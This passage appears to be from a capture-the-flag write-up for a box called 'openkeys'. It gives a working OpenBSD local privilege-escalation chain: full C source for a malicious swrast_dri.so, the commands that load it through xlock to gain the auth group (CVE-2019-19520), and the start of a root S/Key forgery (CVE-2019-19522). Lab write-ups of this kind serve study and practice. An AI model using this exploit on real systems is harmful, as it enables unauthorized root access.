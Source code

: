 * I found a script that autometiclly done that work.

  [Script](https://raw.githubusercontent.com/bcoles/local-exploits/master/CVE-2019-19520/openbsd-authroot)

## Manual 

### CVE-2019-19520

__First__, create `swrast_dri.c` file - 
```
openkeys$ cat > swrast_dri.c << "EOF"
#include <paths.h>
#include <sys/types.h>
#include <unistd.h>

static void __attribute__ ((constructor)) _init (void) {
    gid_t rgid, egid, sgid;
    if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
    if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);

    char * const argv[] = { _PATH_KSHELL, NULL };
    execve(argv[0], argv, NULL);
    _exit(__LINE__);
}
EOF
```

__Second__, compile it - 
```diff
openkeys$ gcc -fpic -shared -s -o swrast_dri.so swrast_dri.c

openkeys$ ls
swrast_dri.c  swrast_dri.so
```

__Third__, run - 
```diff
openkeys$ env -i /usr/X11R6/bin/Xvfb :66 -cc 0 &
[1] 56546
openkeys$ _XSERVTransmkdir: Owner of /tmp/.X11-unix should be set to root
openkeys$ env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display :66
openkeys$ id
+uid=1001(jennifer) gid=11(auth) groups=1001(jennifer), 0(wheel)
```

* Now we are in `auth` group.

### CVE-2019-19522

__First__, create root skey and chmod it - 
```
openkeys$ echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root
openkeys$ chmod 0600 /etc/skey/root
```
